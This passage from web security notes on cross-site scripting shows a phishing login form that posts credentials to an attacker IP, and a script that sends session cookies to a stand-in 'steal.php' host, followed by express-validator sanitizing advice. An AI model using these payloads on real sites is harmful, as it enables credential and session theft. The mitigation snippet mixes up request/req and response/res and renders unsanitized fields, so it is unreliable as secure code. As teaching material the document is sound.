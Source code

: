 ##### Example

* In this example a cloned login page is used to steal a victims credentials.

* The attacker then can wreak havoc in the victim's social media, bank accounts, etc.

```html
<div>
  <h3>Security Alert</h3>
  <h4>Your session has expired.</h4>
  <form action=http://[Attacker IP]>
    Username:<br><input type="text" name="user"><br>
    Password:<br><input type="password" name="pass"><br><br>
    <input type="submit" value="Logon">
  </form>
</div>
```

#### Account Hijacking  

* A victim's `session` `cookies` are stolen, which in turn are used by the attacker to impersonate the victim and access sensitive information from their social media, bank accounts, etc.

##### Example

* In this example an attacker targets a forms vulnerable field to inject a malicious image.

```html
<script>
new Image().src = 'http://youvenoidea/steal.php?cookies=' +  encodeURI(document.cookie);
</script>
```

### Mitigating XSS  

* All user input should be escaped or sanitized.

#### express-validator  

* The `express-validator` module simplifies input sanitation.

#### Usage

* Install `express-validator`: `npm install express-validator --save`

* Import: `var validator = require('express-validator')`

* Apply after `body-parser`

```javascript
//req.body.password = 'a <span>comment</span>';
//req.body.username = " I'm-gonna-hack-you' ";

app.post('/login', function(request, response){
  req.assert('password', 'Password is required').notEmpty();
  req.assert('username', 'Your must enter a user name').notEmpty();

  // Sanitize password and username
  req.sanitize('password').escape(); // Returns: a &lt;span&gt;comment&lt;&#x2F;span&gt;
  req.sanitize('username').escape(); // Returns: I&#x27;m-gonna-hack-you&#x27;

  var errors = request.validationErrors();
  if (errors)
    res.render('error', {errors: errors});
  else
    res.render('login', {password: req.password, username: req.username});
});
```
---
